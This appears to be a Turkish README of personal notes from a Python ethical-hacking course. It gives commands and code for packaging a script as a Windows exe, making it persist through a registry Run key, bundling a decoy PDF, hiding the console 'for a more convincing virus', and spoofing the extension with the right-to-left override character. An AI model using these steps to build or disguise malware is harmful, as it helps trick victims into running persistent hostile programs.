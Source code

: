 # ethical-hacker
Bu projede ,başlangıçta, Atıl Samancıoğlu'nun "Python: Sıfırdan İleri Seviyeye - Etik Hacker Örnekleriyle" kursunu takip ederek yadığım kodlar vardır. Bunları kendim geliştireceğim ve yeni scriptler ekleyeceğim.

### Exe'ye Çevirme İşlemi (in Windows)
`pip install pyinstaller`
pyinstaller.exe'nin konumunu buluyoruz (.../Scripts/pyinstaller.exe).
`...\pyinstaller.exe PythonFile.py --onefile`

### Bilgisayar Her Açıldığında Programımızı Çalıştırmayı Sağlama (in Windows)
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v isim /t REG_SZ /d "C:\...\myexe.exe"`
Bu komut bir exe'yi her açılışta çalıştırmamıza yarıyor. Yapmamız gereken uygulamamızı gizli bir klasöre kopyalamak ve bu yeni dosyanın yolunu regedit'e eklemek. Kodda bunu yapmak için;
```
...

import subprocess
import os
import shutil
import sys

new_file = os.environ["appdata"] + "\\myexe.exe"
if not os.path.exists(new_file):
	shutil.copyfile(sys.executable,new_file)
	regedit_command = "Yukarıdaki regedit komutu (Sonundaki yolu new_file ile vereceğiz)"+new_file
	subprocess.call(regedit_command, shell=True)
...
```

### Dosyaya PDF Eklemek (in Windows)
Bunu paketleme sırasında yapıyoruz
`...\pyinstaller.exe PythonFile.py --onefile --add-data "...\dosya.pdf;."`	(;. ek olarak koymamız gerekiyor)
Bu tek başına yeterli değil. Aynı zamanda kodumuzun içinde exe'ye basıldığında bu dosyanın gösterilmesini sağlayacağız.
```
def open_added_file():
	added_file = sys._MEIPASS + "\\dosya.pdf"
	subprocess.Popen(added_file,shell=True)

...

open_added_file()
```
Ayrıca yukarıdaki komuta --noconsole eklersek terminal açılmasını engellemiş oluruz. Daha inandırıcı bir virüs yazmış oluruz. subprocess'in bir metodunda özel bir durum var, --noconsole yeterli olmuyor. Bu komut check_output. BU komutu yazarken de;
`degisken = subprocess.check_output("command",shell=True,stderr=subprocess.DEVNULL,stdin=subprocess.DEVNULL)`

### İkon Değiştirmek (in Windows)
Yukarıdaki paketleme komutuna --icon "...\icon_dosyasi.ico" eklememiz yeterlidir.

### Uzantıyı Değiştirmek (in Kali Linux)
`apt-get install gnome-characters`
Leafpad'da uygulamamızın ismini yazıyoruz. MyVirus.exe gibi.
Sonrasında düzenleme yapıyoruz. Yazıyı MyVirusfdp.exe şeklinde düzenliyoruz.
Characters uygulamasını açıyoruz. right-to-left seçeneğini aratıyoruz ve Right To Left Override'ı seçiyoruz. Copy Character diyoruz.
Sonrasında imlecimizi fdp.exe'nin başına koyuyoruz ve Ctrl+V yapıyoruz. Yazının değiştiğini görmeiz gerekiyor (MyVirusexe.pdf şeklinde). Sonrasında bunu kopyalıyoruz ve dosyamızı isimlendiriyoruz.
